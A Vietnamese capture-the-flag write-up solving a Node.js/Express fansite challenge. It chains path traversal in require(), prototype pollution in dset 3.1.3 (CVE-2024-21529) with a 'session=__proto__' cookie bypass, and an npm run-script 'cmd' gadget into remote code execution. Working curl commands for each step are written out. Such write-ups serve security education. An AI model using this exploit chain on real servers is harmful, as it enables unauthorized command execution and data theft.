


# Đề bài
Challenge cho sẵn source code một web fansite chạy Node.js + Express. Mục tiêu là đọc được `/flag.txt`, mà file này chỉ `root` đọc được — ta phải gọi binary setuid `readflag` để lấy nội dung, tức là cần đạt được RCE.

# Solution
Truy cập vào challenge, ta thấy một trang fansite của nhóm nhạc HepiHepi:


Bấm vào một thành viên, ta sang trang chi tiết với URL dạng `/member?memberID=member1`:



Trang này hiển thị thông tin lấy từ file `members/member1.js`. Để ý thêm cái nút mặt trời ở góc phải trên — đó là tính năng đổi theme, lát nữa sẽ thấy nó gọi tới một endpoint riêng. Giờ ta mở source `index.js` lên soi xem server xử lý những gì.

## Soi route /member — ngửi thấy path traversal

Đầu tiên là route hiển thị thành viên:

```javascript!
app.get('/member', requireSession, (req, res) => {
    memberID = req.query.memberID
    memberStats = require(`./members/${memberID}.js`)
    res.render('member', { member: memberStats })
})
```

Dấu hiệu đập vào mắt ngay: input của user (`memberID`) được nối thẳng vào `require()` mà không hề lọc. Hễ thấy một giá trị do người dùng điều khiển chui vào một hàm nhận đường dẫn file — `require`, `fs.readFile`, `res.sendFile`, `include`... — thì phản xạ đầu tiên luôn là [path traversal](https://owasp.org/www-community/attacks/Path_Traversal): nhồi `../` để leo ra khỏi thư mục dự kiến. Ở đây đường dẫn là `./members/<memberID>.js`, nên nếu `memberID` chứa `../` ta có thể bắt Node load một file `.js` bất kỳ trên hệ thống thay vì chỉ các file trong `members/`.

Nhưng khoan mừng. Lỗ hổng này cho ta *load* một file `.js` có sẵn, chứ không cho ta ghi file mới lên server — ta đâu upload được gì. Load được file nào thì có ích? Chưa rõ. Ta tạm cất ý tưởng "`require()` tùy ý" này sang một bên và soi tiếp.

## change-theme + dset — ngửi thấy prototype pollution

Cái nút đổi theme hồi nãy chính là route này, kèm middleware kiểm tra session:

```javascript!
const sessionStorage = {}

function requireSession(req, res, next) {
    const sessionID = req.cookies.session
    if (!sessionID || !sessionStorage[sessionID]) {
        return res.redirect('/')
    }
    req.session = sessionStorage[sessionID]
    req.sessionID = sessionID
    next()
}

app.post('/change-theme', requireSession, (req, res) => {
    const { themeVar, themeVal } = req.body
    if (typeof themeVar !== 'string' || typeof themeVal !== 'string') {
        return res.status(400).send('themeVar and themeVal must be strings')
    }
    lib.dset(sessionStorage, [[req.sessionID], themeVar], themeVal)
    res.send('Change theme successfuly')
})
```

Chỗ `lib.dset(sessionStorage, ..., themeVal)` là cái gợn lên một dấu hiệu khác. `dset` là một thư viện chuyên để *set* một property lồng sâu vào object theo một key path, kiểu `dset(obj, 'a.b.c', val)`. Mà ở đây cả key (`themeVar`) lẫn value (`themeVal`) đều do user gửi lên. Hễ thấy một hàm ghi property vào object với tên property lấy từ input người dùng, ta phải nghĩ ngay tới [prototype pollution](https://portswigger.net/web-security/prototype-pollution).

Vậy prototype pollution là gì? Trong JavaScript, gần như mọi object thông thường đều kế thừa từ `Object.prototype`. Khi ta đọc một property mà bản thân object không có, engine sẽ đi ngược lên *prototype chain* để tìm — đọc `obj.toString` chẳng hạn, `obj` không tự định nghĩa nhưng vẫn ra hàm, vì nó lấy từ `Object.prototype.toString`. Điểm chí mạng là ở chiều ngược lại: nếu kẻ tấn công ghi được vào `Object.prototype` (thường qua key đặc biệt `__proto__`), thì property vừa ghi tự dưng xuất hiện trên *mọi* object trong toàn chương trình. Tự nó chưa gây hại gì, nhưng nó là mồi: chỉ cần ở đâu đó có đoạn code đọc trúng property ấy rồi dùng vào việc nhạy cảm, ta sẽ lái được hành vi của nó. Đoạn code "đọc trúng rồi dùng" đó gọi là *gadget*. Có thể đọc kỹ hơn ở [PortSwigger](https://portswigger.net/web-security/prototype-pollution) và [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution).

Giờ quay lại `dset`. Một thư viện tử tế sẽ phải chặn `__proto__`, nên ta mở `package.json` xem nó dùng bản nào — và thấy `dset` bị ghim cứng ở version `3.1.3`. Tra ra thì đúng bản dính [CVE-2024-21529](https://github.com/advisories/GHSA-f6v4-cf5j-vf3w) (vá ở `3.1.4`), một lỗ hổng prototype pollution. Vậy nghi ngờ của ta có cơ sở.

### Vì sao dset 3.1.3 vẫn bị pollute

Ta mở source của `dset@3.1.3` ra xem nó chặn thế nào:

```javascript!
function dset(obj, keys, val) {
	keys.split && (keys=keys.split('.'));
	var i=0, l=keys.length, t=obj, x, k;
	while (i < l) {
		k = keys[i++];
		if (k === '__proto__' || k === 'constructor' || k === 'prototype') break;
		t = t[k] = (i === l) ? val : (typeof(x=t[k])===typeof(keys)) ? x : (keys[i]*0 !== 0 || !!~(''+keys[i]).indexOf('.')) ? {} : [];
	}
}
```

Nó có check `k === '__proto__'` để chặn, trông thì kín. Nhưng đây là so sánh string nghiêm ngặt (`===`): nó chỉ chặn khi key *đúng y* là chuỗi `"__proto__"`. Giờ nhìn lại cách source gọi `dset`:

```javascript!
lib.dset(sessionStorage, [[req.sessionID], themeVar], themeVal)
```

Key path bị bọc một cách kì lạ: phần tử đầu không phải string mà là một *array* `[req.sessionID]`. Đây chính là chỗ CVE sống. Nếu ép được `req.sessionID` bằng `"__proto__"`, thì key đầu tiên trong path là mảng `["__proto__"]`, và điều kỳ diệu xảy ra:

1. Vòng lặp lấy `k = ["__proto__"]`. Dòng `k === '__proto__'` đang so một *array* với một *string* → luôn `false`, nên qua được hàng rào.
2. Nhưng ngay dòng sau, khi array bị dùng làm key của object `t[k]`, JavaScript phải ép nó về string: `('' + ["__proto__"])` cho ra đúng chuỗi `"__proto__"`. Thế là `t` nhảy thẳng vào `Object.prototype`.
3. Sang vòng lặp cuối với `k = themeVar` (giờ `i === l`), nó gán `Object.prototype[themeVar] = themeVal`.

Cái array `["__proto__"]` vừa qua mặt được lớp check string (vì so sánh kiểu khác nhau), lại vừa coerce ngược về `"__proto__"` khi làm key — đó là bản chất của CVE-2024-21529.

### Lách luôn cả session

Còn một chi tiết: làm sao ép `req.sessionID = "__proto__"`, trong khi middleware `requireSession` bắt phải có session hợp lệ? Nhìn lại nó: lấy `sessionID` từ cookie, rồi check `sessionStorage[sessionID]` có truthy không. Mà `sessionStorage` là một object rỗng `{}`, nên `sessionStorage["__proto__"]` trả về chính `Object.prototype` — một giá trị truthy. Vậy chỉ cần gửi cookie `session=__proto__` là qua được middleware mà chẳng cần đăng nhập, và `req.sessionID` lúc này đúng bằng `"__proto__"`. Một mũi tên trúng hai đích.

Tới đây ta đã có thể ghi một property bất kỳ (tên tùy, giá trị tùy) lên `Object.prototype`. Nhưng... rồi sao?

## Pollution một mình chưa phải RCE — đi tìm gadget

Pollute xong, trong tay ta chỉ là khả năng "làm mọi object trong chương trình tự nhiên mọc ra một property do ta đặt". Muốn biến nó thành RCE thì phải có một *gadget*: ở đâu đó trong code có dòng kiểu

```javascript!
if (options.cmd) { spawn(options.cmd, ...) }
```

khi `options` không tự có `cmd`, nó sẽ ngửa lên prototype chain nhặt đúng `Object.prototype.cmd` mà ta đã gài, rồi đem đi `spawn`. Vấn đề là đọc hết source của app HepiHepi thì *không* thấy gadget nào gọi command cả. Pollution coi như treo đó.

Đây đúng là lúc ta lôi lại ý tưởng đã cất ở đầu bài: path traversal cho phép `require()` một file `.js` bất kỳ. Nếu trên hệ thống có sẵn một module mà bên trong đã viết sẵn một gadget kiểu trên, thì ta chỉ việc pollute cho khớp property nó đọc, rồi dùng path traversal bắt Node nạp module đó để kích hoạt. Hai lỗ hổng rời rạc — một cái "ghi được lên prototype", một cái "nạp được module tùy ý" — ghép lại mới thành chuỗi.

Module nào có gadget sẵn? `npm` là ứng viên kinh điển (xem [HackTricks — proto pollution to RCE](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#rce)). Node cài global nên trên máy luôn tồn tại `/usr/lib/node_modules/npm/bin/npx-cli.js`. Khi file này được load, nó tự biến thành lời gọi `npm exec`:

```javascript!
// npx-cli.js
const cli = require('../lib/cli.js')
process.argv[1] = require.resolve('./npm-cli.js')
process.argv.splice(2, 0, 'exec')
```

Lần theo `npm exec`, ta tới `libnpmexec`. Khi gọi mà không kèm package nào, nó rơi vào nhánh chạy script mặc định rồi đẩy xuống `@npmcli/run-script`. Mở `run-script-pkg.js`, gadget nằm đây:

```javascript!
let cmd = null
if (options.cmd) {
    cmd = options.cmd
} else if (pkg.scripts && pkg.scripts[event]) {
    cmd = pkg.scripts[event]
}
...
const [spawnShell, spawnArgs, spawnOpts] = makeSpawnArgs({ ..., cmd, ..., scriptShell })
const p = promiseSpawn(spawnShell, spawnArgs, spawnOpts, ...)
```

`options` là object cấu hình nội bộ của npm, bản thân nó không có property `cmd`. Nhưng vì ta đã pollute `Object.prototype.cmd`, câu `if (options.cmd)` ngửa lên prototype chain nhặt đúng command của ta. Sau đó `makeSpawnArgs` dựng lời gọi với `shell: scriptShell` (mặc định `sh`), nên server cuối cùng chạy `sh -c "<cmd>"`. Giờ thì rõ vì sao gadget này đọc đúng key tên `cmd` — và vì sao bước pollute phải nhắm đúng cái tên ấy.

## Ghép chuỗi

Đủ mảnh rồi, ta ráp lại theo thứ tự.

Request 1 — pollute `Object.prototype.cmd` bằng chính câu lệnh muốn chạy:

```bash!
curl -b "session=__proto__" -X POST http://localhost:5005/change-theme \
  --data-urlencode "themeVar=cmd" \
  --data-urlencode "themeVal=/readflag > /tmp/pwn.js 2>&1; sleep 90"
```

Request 2 — kích hoạt gadget bằng path traversal, bắt `/member` require file npx-cli:

```bash!
curl -b "session=__proto__" \
  "http://localhost:5005/member?memberID=../../usr/lib/node_modules/npm/bin/npx-cli"
```

:::info
Từ `/app/members/`, hai lần `../` đưa về `/`, nên `require('./members/../../usr/.../npx-cli.js')` resolve ra đúng `/usr/lib/node_modules/npm/bin/npx-cli.js`.
:::

:::warning
`npm exec` chạy bất đồng bộ nên request này trả response gần như tức thì, còn command thật mới chạy phía sau vài giây (npm phải khởi động Arborist, đọc config...). Đọc flag ngay lập tức sẽ hụt vì file chưa kịp sinh ra. Đoạn `sleep 90` trong payload có hai tác dụng: giữ cho tiến trình `sh` chưa kết thúc, và quan trọng hơn là níu server sống thêm — vì sau khi `npm exec` xong nó gọi `process.exit`, kéo sập luôn server Node.
:::

## Đọc flag

`readflag` đã ghi output vào `/tmp/pwn.js`. Giờ ta lại tận dụng chính route `/member`, lần này bắt nó `require('/tmp/pwn.js')`. Nội dung file là flag dạng `W1{...}` — không phải JavaScript hợp lệ, nên Node ném `SyntaxError`, mà thông báo lỗi lại in ra đúng dòng đầu của file, tức là flag:

```bash!
curl -b "session=__proto__" "http://localhost:5005/member?memberID=../../tmp/pwn"
```



-> Flag: `W1{fake_flag}`

:::info
Bản deploy local trong Docker ship sẵn `flag.txt` là placeholder `W1{fake_flag}`, nên exploit chạy ra đúng chuỗi đó. Trên server thật của giải, cũng chuỗi lệnh này sẽ lộ ra flag thật theo format `W1{...}`.
:::
